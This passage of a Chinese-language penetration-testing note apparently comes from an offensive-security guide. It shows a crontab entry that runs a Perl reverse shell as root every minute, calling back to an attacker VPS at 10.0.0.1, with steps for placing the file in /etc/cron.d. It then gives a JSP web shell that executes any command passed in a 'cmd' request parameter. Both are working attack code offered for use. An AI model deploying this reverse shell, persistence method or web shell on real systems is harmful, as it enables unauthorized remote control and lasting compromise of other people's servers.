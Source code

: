 
## 方法三
利用定时器，自动化弹shell；<br />注意，换行一定要\n，不能是\r\n，否则crontab执行会失败；

这里利用perl语言写的反弹到VPS上；
```javascript
*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
```

crontab格式：
```javascript
minute   hour   day   month   week   command     顺序：分 时 日 月 周 命令
星号（*）：代表所有可能的值；
文件写至`/etc/crontab.d/`中；
具体参考：http://wangchujiang.com/linux-command/c/crontab.html

每1分钟执行一次command：
* * * * * command
```

上传
![image.png](./assets/1659514316353-b05e4509-c3f3-45d4-bc9d-dea947436e88.png)

移动cron文件到/etc/cron.d/root
![image.png](./assets/1659514330080-4eec57a3-03a7-4122-a46c-b4e160c164cc.png)

等会即可拿到反弹结果；
![image.png](./assets/1659514356319-a5cbbd63-dec8-4a62-8045-7febbdc171db.png)

由于是root运行的服务，这里才可写crotab，拿到的shell权限也为root；<br />如果非root启动，此方法同写入SSH一样


# 0X05 木马
浏览器访问：
```javascript
<%@ page import="java.io.*" %>
  <%
  try {
    String cmd = request.getParameter("cmd");
    Process child = Runtime.getRuntime().exec(cmd);
    InputStream in = child.getInputStream();
    int c;
    while ((c = in.read()) != -1) {
      out.print((char)c);
    }
    in.close();
    try {
      child.waitFor();
    } catch (InterruptedException e) {
      e.printStackTrace();
    }
  } catch (IOException e) {
    System.err.println(e);
  }
%>
```
